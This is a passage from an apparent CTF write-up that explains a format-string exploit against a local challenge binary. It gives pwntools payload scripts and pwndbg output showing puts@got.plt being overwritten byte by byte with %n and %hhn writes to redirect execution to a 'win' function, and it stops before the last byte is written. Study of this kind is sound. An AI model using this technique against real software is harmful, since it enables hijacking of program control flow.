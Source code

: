 ```python
r.sendline(payload)
r.interactive()
r.close()
```

We see this works as expected.

```console
pwndbg> x/gx &'puts@got.plt'
0x404020 <puts@got.plt>:        0x00000000000000f6
```

Next, we will move on to writing `0x11`, the second least significant byte of the `win` function's address (`0x4011f6`). Since we have already printed `246` characters (which exceeds `0x11`), we can print an additional `27` bytes to make the total count of printed characters `273` (`0x111` in hexadecimal). 

Then, we will use the `hh` (`char`) length sub-specifier with `%n` to ensure that `printf` writes only the least significant byte (`0x11`) of the printed character count (`0x111`). 

Additionally, in our input, we need to increment the address so that `printf` writes to the next byte.

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
context.binary = binary = ELF("./materials-TryPwnMeOne/NotSpecified/notspecified", checksec=False)

puts_got = binary.got["puts"]

r = process()
gdb.attach(r)

payload = b"%12$lln%246c%13$n%27c%14$hhn %15$p".ljust(48, b"-")
payload += p64(puts_got)
payload += p64(puts_got)
payload += p64(puts_got+1)
payload += b"D"*8

r.recvuntil(b"Please provide your username\n")
r.sendline(payload)
r.interactive()
r.close()
```

```console
pwndbg> x/gx &'puts@got.plt'
0x404020 <puts@got.plt>:        0x00000000000011f6
```

Finally, to write the last byte, `0x40`, we need to print `47` additional characters. This will make the total count of printed characters `0x140`.
